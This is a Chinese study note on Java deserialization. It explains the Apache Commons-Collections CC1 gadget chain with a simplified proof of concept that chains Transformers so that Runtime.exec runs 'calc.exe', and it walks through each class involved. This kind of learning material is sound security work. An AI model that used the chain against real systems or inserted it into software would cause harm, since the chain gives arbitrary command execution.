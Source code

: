 ```yaml
---
created: '21/11/06'
title: 反序列化篇3
tags:
  - java
  - java安全
  - 反序列化
---
```

# 反序列化篇3
## CC1
这篇文章主要是讲解了CC1链的本质，让读者能够更容易地明白。
这里P牛的pdf已经写的很好了，就稍微总结一下。

这个是P牛简化过的代码，执行后将会弹计算器(需要稍微修改下代码，如package，/System/Applications/Calculator.app/Contents/MacOS/Calculator):
```java
package com.govuln.deserialization;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsIntro {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

这里需要学习的就是几个新的类。

### 理解类
#### TransformedMap
> TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将执⾏⼀个回调。我们通过下面这行代码对innerMap进⾏修饰，传出的outerMap即是修饰后的Map
```java
Map outerMap = TransformedMap.decorate(innerMap, keyTransformer, valueTransformer);
```

#### Transformer
Transformer是⼀个接口，它只有⼀个待实现的方法`transform`，TransformedMap在转换新元素时，就会调用Transformer中的transform方法。

#### ConstantTransformer
ConstantTransformer是实现了Transformer接⼝的⼀个类，其构造函数是接收一个对象并存储，在transform时将该对象返回
```java
public ConstantTransformer(Object constantToReturn) { super(); iConstant = constantToReturn;
}
public Object transform(Object input) { return iConstant;
}
```

#### InvokerTransformer
> InvokerTransformer是实现了Transformer接口的⼀个类，这个类可以用来执行任意方法，这也是反序列化能执行任意代码的关键。

构造方法如下:
```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    super();
    iMethodName = methodName;
    iParamTypes = paramTypes;
    iArgs = args;
}
```
transform方法如下，执行了input对象的iMethodName方法:
```java
public Object transform(Object input) {
if (input == null) {
    return null;
} try {
    Class cls = input.getClass();
    Method method = cls.getMethod(iMethodName, iParamTypes); 
    return method.invoke(input, iArgs);
} catch (NoSuchMethodException ex) {
    // ...
}
```

#### ChainedTransformer
> ChainedTransformer也是实现了Transformer接⼝的⼀个类，它的作⽤是将内部的多个Transformer串 在⼀起。通俗来说就是，前⼀个回调返回的结果，作为后⼀个回调的参数传⼊，我们画⼀个图做示意：
![](https://gitee.com/guuest/images/raw/master/img/20211106110501.png)

### 理解Demo
当我们理解上面几个类的作用之后，Demo的代码就非常容易理解了，其实际上分为以下几个步骤:
1. 创建了一个链式的Transformer(`ChainedTransformer`)，其中包含了两个Transformer(`ConstantTransformer`和`InvokerTransformer`)，目的是为了执行`Runtime.exec`方法
2. 创建HashMap实例，并用`TransformedMap.decorate`来包装HashMap，当发生value转换的时候回调`ChainedTransformer`
3. 使用`HashMap.out`方法往Map中放入新元素，触发回调
